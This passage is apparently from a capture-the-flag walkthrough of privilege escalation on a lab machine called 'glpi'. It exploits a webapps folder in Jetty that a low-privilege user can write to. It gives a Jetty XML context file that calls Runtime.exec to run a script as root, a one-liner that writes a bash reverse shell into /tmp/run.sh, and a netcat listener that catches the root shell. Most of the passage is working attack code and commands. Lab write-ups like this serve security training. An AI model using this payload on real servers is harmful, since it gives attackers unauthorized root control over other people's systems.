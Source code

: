 - Direct to `/opt/jetty/jetty-base/` and check for any web apps folder.

```sh

l 24
drwxr-xr-x 5 root  root  4096 Mar 21  2023 .
drwxr-xr-x 7 root  root  4096 Jan 25  2023 ..
-rw-r--r-- 1 root  root   104 Mar 21  2023 jetty.state
drwxr-xr-x 2 root  root  4096 Jan 25  2023 resources
drwxr-xr-x 2 root  root  4096 Jan 25  2023 start.d
drwxr-xr-x 2 betty betty 4096 Jan 25  2023 webapps      #webapp
betty@glpi:/opt/jetty/jetty-base$ 
```
- Create a xml file as below.

```xml
<?xml version="1.0"?>
<!DOCTYPE Configure PUBLIC "-//Jetty//Configure//EN" "https://www.eclipse.org/jetty/configure_10_0.dtd">
<Configure class="org.eclipse.jetty.server.handler.ContextHandler">
    <Call class="java.lang.Runtime" name="getRuntime">
        <Call name="exec">
            <Arg>
                <Array type="String">
                    <Item>/tmp/run.sh</Item>
                </Array>
            </Arg>
        </Call>
    </Call>
</Configure>
```

The file will run the `/tmp/run.sh` file as root which will give us the root shell.

- Create reverse shell in `/tmp/run.sh` file.

> Note: In order to trigger the jetty server, the run.xml file has to be updated or renamed or anything. The modification of xml file inside the webapps folder will immediately trigger the server.
>
> So it will be great if the /tmp/run.sh file is created before run.xml file. Another important note that the out of band connections are not allowed in the machine, so for root shell reverse connection the netcat should be running internally.

## /tmp/run.sh

```sh
echo "bash -c 'bash -i >& /dev/tcp/127.0.0.1/4444 0>&1'" > /tmp/run.sh
```

- Running netcat listener locally.

```sh
ty@glpi:~$ which nc
/usr/bin/nc
betty@glpi:~$ /usr//bin/nc -lvnp 4444
Listening on 0.0.0.0 4444
```
